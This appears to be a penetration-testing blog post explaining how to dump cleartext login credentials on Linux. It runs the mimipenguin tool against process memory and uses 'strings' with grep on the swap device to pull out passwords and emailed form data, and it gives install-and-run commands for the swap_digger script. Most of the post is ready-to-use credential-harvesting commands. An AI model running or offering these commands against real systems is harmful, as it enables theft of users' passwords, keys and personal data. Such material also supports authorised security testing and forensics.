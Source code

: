 ```yaml
---
title:  "Dump Login Passwords From Current Linux Users"
classes: wide
header:
  teaser: /img/linux.jpg
ribbon: MidnightBlue
categories:
  - Penetration Testing 
toc: true
---
```


Dump Login Passwords From Current Linux Users

## mimipenguin 

MimiPenguin works similarly to the well-known "mimikatz" for Windows, but is designed for Linux and attempts to dump cleartext credentials from memory from the following applications

* Apache2 (Active HTTP Basic Auth Sessions)
* OpenSSH (Active SSH Sessions - Sudo Usage)
* GDM password (Kali Desktop, Debian Desktop)
* Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop)
* VSFTPd (Active FTP Connections)


Takes advantage of cleartext credentials in memory by dumping the process and extracting lines that have a high probability of containing cleartext passwords. Will attempt to calculate each word's probability by checking hashes in /etc/shadow, hashes in memory, and regex searches 


## install mimipenguin

```
git clone https://github.com/huntergregal/mimipenguin
cd mimipenguin/
./mimipenguin.sh 
```

 <img src="/img/88.png" alt="Getting-gz" width="800" height="150"> 



## dumping credentials from memory

we can also dump sensitive information from the swap file.
As everything is a "file" in linux, so is swap space, and we can use that to our advantage using built-in tools. 

The partition or “file” defined as the swap file can be found with the following commands:

`swapon -s`

 <img src="/img/0d.PNG" alt="Getting-gz" width="800" height="100"> 


we can see that our swap partition is at /dev/sda5

We can obtain the exact same information by issuing the “cat”
command to the “/proc/swaps” file:

`cat /proc/swaps`

 <img src="/img/1d.PNG" alt="Getting-gz" width="800" height="100"> 



We can use the strings command against the /dev/sda5 

`strings <swap_device> |grep "password=" `

If you want to search for web entered email (GET/POST) you can use:

`strings <swap_device> | grep -i 'email=' | grep @ | uniq`

## swap_digger.sh

swap_digger is a bash script used to automate Linux swap analysis for post-exploitation or forensics purpose. It automates swap extraction and searches for Linux user credentials, Web form credentials, Web form emails, HTTP basic authentication, WiFi SSID and keys, etc.

```
git clone https://github.com/sevagas/swap_digger.git
cd swap_digger
chmod +x swap_digger.sh
sudo ./swap_digger.sh -vx
```

